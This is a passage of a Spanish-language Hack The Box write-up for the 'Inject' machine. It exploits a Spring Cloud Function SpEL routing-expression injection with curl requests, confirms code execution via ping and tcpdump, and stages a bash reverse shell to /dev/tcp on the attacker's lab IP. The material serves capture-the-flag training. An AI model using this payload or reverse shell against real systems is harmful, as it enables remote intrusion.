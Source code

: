 
![](/assets/images/HTB/htb-writeup-Inject/inj7.PNG)


Como no es tan complejo su explotación podemos hacerlo manualmente incoporando los parametros requeridos con el propio `curl`. Nos mandamos una traza a nuestra maquina host.


```bash
❯ curl -s -X POST "http://10.10.11.204:8080/functionRouter" -H 'spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("ping -c 1 10.10.16.2")' -d '.'
{"timestamp":"2023-07-19T18:56:07.739+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"
```

Y recibimos la petición.

```bash
❯ tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
18:56:22.791783 IP 10.10.11.204 > 10.10.16.2: ICMP echo request, id 2, seq 1, length 64
18:56:22.791819 IP 10.10.16.2 > 10.10.11.204: ICMP echo reply, id 2, seq 1, length 64
```


Para ganar acceso vamos a crearnos un archivo en bash de nombre `index.html` que nos otorgue una reverse shell, el cual nos compartiremos y almancenaremos en la maquina victima para posteriormente ejecutarlo.


```bash
❯ cat index.html
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.2/443 0>&1
```


Realizamos la petición.

```bash
❯ curl -s -X POST "http://10.10.11.204:8080/functionRouter" -H 'spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("curl 10.10.16.2 -o /tmp/reverse")' -d '.'
{"timestamp":"2023-07-19T18:58:54.291+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}
```

